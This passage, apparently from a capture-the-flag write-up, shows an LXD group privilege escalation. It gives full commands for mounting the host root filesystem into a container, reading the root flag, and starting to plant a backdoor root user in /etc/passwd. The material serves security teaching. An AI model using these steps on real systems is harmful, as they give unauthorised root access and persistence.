 The `lxc` tool was located at `/snap/bin/lxc`. Next, I imported the Alpine Linux image:

```none
-bash-5.0$ /snap/bin/lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

Image imported with fingerprint: 922072e9de0047fae387ad82163b54d59f029dc59dac4a9b53d46bedf8cc07d8
-bash-5.0$ /snap/bin/lxc image list
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 922072e9de00 | no     | Alpinelinux edge x86_64 (20200921_1825) | x86_64       | CONTAINER | 4.21MB | Sep 21, 2020 at 6:32pm (UTC) |
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
```

Then, I created a persistent storage location for the container runtime, specified a root disk device for starting the container, and mounted the host's root file system into the container:

```none
-bash-5.0$ /snap/bin/lxc storage create pool1 dir
Storage pool pool1 created
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool1
Device root added to default
-bash-5.0$ /snap/bin/lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Next, I started the container and invoked a shell in it:

```none
-bash-5.0$ /snap/bin/lxc start privesc
-bash-5.0$ /snap/bin/lxc exec privesc /bin/sh
# cat /mnt/root/root/flag.txt
d73b04b0e696b0945283defa3eee4538
```

Notice that the root file system was mounted to `/mnt/root` in the container. Here, I had full read/write access to the host.
Then, I appended a backdoor root user entry to the `/etc/passwd` file from within the container for more persistent access:

```none
$ openssl passwd
Password:
Verifying - Password:
uPz1zBu9ZKVUg
```

From within the container:
